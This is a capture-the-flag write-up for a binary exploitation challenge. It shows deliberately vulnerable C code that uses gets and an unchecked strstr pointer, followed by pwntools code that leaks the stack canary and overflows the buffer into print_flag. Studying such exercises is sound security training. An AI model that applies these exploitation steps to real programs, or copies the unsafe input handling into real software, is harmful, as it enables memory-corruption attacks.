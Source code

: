 # Exploration

for this challenge we are given the following binary  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/4f2e66bc-9b9b-4fab-8c76-6b90ccf50988)

Looking at the security measures we get the following:  

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/ff6cf893-9220-405a-bb45-e0a1b84e01c0) 

Let's look at the source code to see if we can find anything interesting  
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

void print_flag(void) {
  char flag[256];
  FILE *flag_file = fopen("flag.txt", "r");
  fgets(flag, sizeof flag, flag_file);
  puts(flag);
}

const char *const responses[] = {"L",
                                 "amongus",
                                 "true",
                                 "pickle",
                                 "GINKOID",
                                 "L bozo",
                                 "wtf",
                                 "not with that attitude",
                                 "increble",
                                 "based",
                                 "so true",
                                 "monka",
                                 "wat",
                                 "monkaS",
                                 "banned",
                                 "holy based",
                                 "daz crazy",
                                 "smh",
                                 "bruh",
                                 "lol",
                                 "mfw",
                                 "skissue",
                                 "so relatable",
                                 "copium",
                                 "untrue!",
                                 "rolled",
                                 "cringe",
                                 "unlucky",
                                 "lmao",
                                 "eLLe",
                                 "loser!",
                                 "cope",
                                 "I use arch btw"};

int main(void) {
  setbuf(stdout, NULL);
  srand(time(NULL));
  char input[64];
  puts("hello");
  while (1) {
    gets(input);
    char *s = strstr(input, "i'm");
    if (s) {
      printf("hi %s, i'm aplet123\n", s + 4);
    } else if (strcmp(input, "please give me the flag") == 0) {
      puts("i'll consider it");
      sleep(5);
      puts("no");
    } else if (strcmp(input, "bye") == 0) {
      puts("bye");
      break;
    } else {
      puts(responses[rand() % (sizeof responses / sizeof responses[0])]);
    }
  }
}
```

Some things of interest:  
1. There is a `print_flag` function, so we only need to gain control of the program flow to get the flag
2. were using the `strstr` in conjunction with `printf` to print the characters after the string "i'm"
3. we are using the function `gets` for input >:(

From this observations we know that there is a buffer overflow due to `gets`, but we can't abuse it straight away due to the stack canary.  
Some interesting behavior is that there is no check on what `s` points to after `strstr` so we can potentially access outside of the buffer.  
These two facts together should be enough to exploit this program.  

# Exploitation  

Plan:  
1. use `strstr` + `printf` to leak the stack canary
2. use gets + leaked stack canary to do a buffer overflow and overwrite the return address with `print_flag`

Through debugging with GDB, and accounting for the fact that stack canaries always start with 0x00, we can find the correct offset for the canary leak  
There's also some formatting needed  
```python
payload = b'A'*69 + b"i'm"
io.recvline()
io.sendline(payload)

data = io.recvline()
log.info(len(data))
log.info(data[2:][:9])
canary = data[2:][:8]

new_canary = b'\x00' + canary[1:]

for byte in new_canary[::-1]:
    print(hex(byte), end=' ')

new_canary = new_canary[::-1]
int_canary = int.from_bytes(new_canary)
```
Then we can use the leaked canary to perform a basic buffer overflow
```python
ovf = 72*b'A' + p64(int_canary) + 8*b'A' +p64(exe.sym['print_flag'])
log.success(hex(exe.sym['print_flag']))

io.sendline(ovf)
io.sendline(b"bye")
```

That's it :)  
![image](https://github.com/AndreQuimper/Writeups/assets/96965806/aa60476a-c492-475e-b36b-ff20e56e446e)



